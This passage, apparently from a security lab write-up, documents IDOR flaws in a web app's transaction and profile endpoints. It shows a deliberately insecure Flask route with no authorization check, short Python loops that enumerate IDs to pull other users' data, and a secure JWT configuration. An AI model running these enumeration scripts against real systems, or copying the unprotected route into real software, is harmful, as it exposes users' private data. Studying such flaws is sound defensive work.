 **Exploitation**:
```python
# Iterate through transaction IDs
for tid in range(1, 100):
    response = requests.get(f'/api/transactions/{tid}')
    if response.status_code == 200:
        print(f"Found transaction: {response.json()}")
```

### 2. Profile Access Control
**Location**: `backend/routes/auth_routes.py`
```python
@app.route('/api/profile/<user_id>')
@login_required
def get_profile(user_id):
    # No authorization check
    user = User.query.get(user_id)
    return jsonify(user.get_profile())
```

**Impact**:
- Profile information disclosure to unauthorized users
- Personal data exposure through IDOR
- Privacy violation of user data

**Exploitation**:
```python
# Access any user's profile
for uid in range(1, 100):
    response = requests.get(f'/api/profile/{uid}')
    if response.status_code == 200:
        print(f"Found profile: {response.json()}")
```

## Prevention Methods
Understanding how to properly implement authentication and authorization is crucial. Here are secure implementation examples:

### 1. Secure JWT Implementation
```python
# Strong JWT configuration
jwt_config = {
    'secret': os.getenv('JWT_SECRET'),
    'algorithm': 'HS512',
    'expires_in': 3600,  # 1 hour
    'required_claims': ['exp', 'iat', 'sub']
}

def create_token(user):
    return jwt.encode({
        'user_id': user.id,
        'exp': datetime.utcnow() + timedelta(seconds=jwt_config['expires_in']),
        'iat': datetime.utcnow(),
        'sub': str(user.id)
    }, jwt_config['secret'], algorithm=jwt_config['algorithm'])
```
